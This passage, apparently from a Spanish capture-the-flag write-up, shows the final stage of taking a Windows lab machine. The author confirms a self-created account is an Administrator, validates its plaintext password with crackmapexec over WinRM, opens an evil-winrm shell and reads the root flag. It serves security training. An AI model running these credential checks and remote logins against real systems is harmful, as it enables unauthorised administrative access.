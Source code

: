 Estamos en el grupo **Administrators**

```bash
*Evil-WinRM* PS C:\Windows\Temp\Escalada> net user miguelrega7
User name                    miguelrega7
Full Name                    miguelrega7
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/8/2023 9:25:16 PM
Password expires             Never
Password changeable          6/8/2023 9:25:16 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.

*Evil-WinRM* PS C:\Windows\Temp\Escalada> 
```

Vamos a verificarlo con **crackmapexec**

```bash
❯ crackmapexec winrm 10.10.11.106 -u 'miguelrega7' -p 'miguel123$!'
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\miguelrega7:miguel123$! (Pwn3d!)
WINRM       10.10.11.106    5985   NONE             [-] None\miguelrega7:miguel123$! "'NoneType' object has no attribute 'upper'"
```

Como el usuario que creamos esta en grupo **Administrators** ya podemos meternos a la ruta donde esta la flag

## Root flag

```bash
❯ evil-winrm -i 10.10.11.106 -u 'miguelrega7' -p 'miguel123$!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\miguelrega7\Documents> 
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
6f4021989bd0ea038e6a434993e78549
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 
```
